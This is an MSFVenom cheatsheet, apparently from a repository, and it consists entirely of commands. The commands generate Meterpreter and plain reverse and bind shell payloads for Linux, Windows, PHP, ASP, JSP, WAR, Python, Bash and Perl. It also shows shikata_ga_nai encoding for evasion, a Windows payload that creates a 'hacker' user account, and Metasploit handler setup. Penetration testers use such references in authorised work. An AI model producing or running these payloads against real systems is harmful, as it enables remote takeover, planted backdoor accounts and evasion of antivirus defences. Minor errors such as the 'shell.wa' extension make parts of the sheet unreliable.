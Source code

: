 ## MSFVenom Cheatsheet 

### Binaries Payloads

#### Linux Meterpreter Reverse Shell
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```
#### Linux Bind Meterpreter Shell
```shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```
#### Linux Bind Shell
```shell
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```
#### Windows Meterpreter Reverse TCP Shell
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```
#### Windows Reverse TCP Shell
```shell
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```
#### Windows Encoded Meterpreter Windows Reverse Shell
```shell
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### Web Payloads
#### PHP Meterpreter Reverse TCP
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
```
#### ASP Meterpreter Reverse TCP
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```
#### JSP Java Meterpreter Reverse TCP
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
#### WAR
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.wa
```
### Scripting Payloads
#### Python Reverse Shell
```shell
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
#### Bash Unix Reverse Shell
```shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
#### Perl Unix Reverse shell
```shell
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```
### Others
#### Create User
```shell
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```
#### Avoid bad characters
```shell
msfpayload windows/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> R | msfencode -b '\x00' -e x86/shikata_ga_nai -t perl
```
#### Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```
